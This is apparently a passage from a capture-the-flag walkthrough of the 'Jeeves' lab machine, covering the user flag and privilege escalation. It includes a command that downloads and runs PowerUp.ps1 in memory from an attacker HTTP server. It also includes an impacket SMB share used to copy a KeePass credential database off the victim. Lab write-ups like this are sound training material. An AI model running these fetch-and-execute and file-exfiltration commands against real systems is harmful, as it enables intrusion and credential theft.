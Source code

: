 ![](../../Assets/walktrhough-assets/jeeves/2025-02-09_4.png)

### User flag
```bash
e3232272596fb47950d59c4cf1e7066a
```
### PrivEsc
I looked for ways to find how to get a privillage escalation. Downloaded the `powersploit1` github repo the `dev` branch with the `-b` option

```bash
git clone https://github.com/PowerShellMafia/PowerSploit.git -b dev
```
copy the PowerUp.ps1 from the `privesc`  Directory and set a http server then download it to the target.

```bash
# Setting the python3 sampleHttpServer
python3 -m http.server 8000

## Copy the PowerUp.ps1 to the target machine with the already user access using the IEX WebClient
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.16:8000/PowerUp.ps1')
```
After run the Command at the bottom of the script `Invokde-AllChecks`
![](../../Assets/walktrhough-assets/jeeves/2025-02-09_5.png)

In the user `kohsuke` Documents directory I found a database passkey file that I can copy to my attack machine and work with it.
![](../../Assets/walktrhough-assets/jeeves/2025-02-09_6.png)

I will use the `impacket-smbserver` to mount share folder and transfer over the file to my attacker machine.

```bash
impacket-smbserver PleaseSubscribe 'pwd'
```
The smb server is listening on the attacker box with the PleaseSubscribe that anyone can write to.
On the victim machine we can run

```bash
New-PSDrive -Name "FollowOnX" -PSProvider "FileSystem" -Root "\\10.10.16.16\PleaseSubscribe"
```
![](../../Assets/walktrhough-assets/jeeves/2025-02-09_7.png)

I can now navigate to the folder by
```bash
PS C:\Users\kohsuke\Documents> cd FollowOnX:
PS FollowOnX:\> 
```
Now I can copy the file `CEH.kdbx` to the shared smb folder and access it on the attacker machine.

```bash
cp C:\Users\kohsuke\Documents\CEH.kdbx .
```
As you can see I copied the file to the attacker machine successfully.
![](../../Assets/walktrhough-assets/jeeves/2025-02-09_8.png)
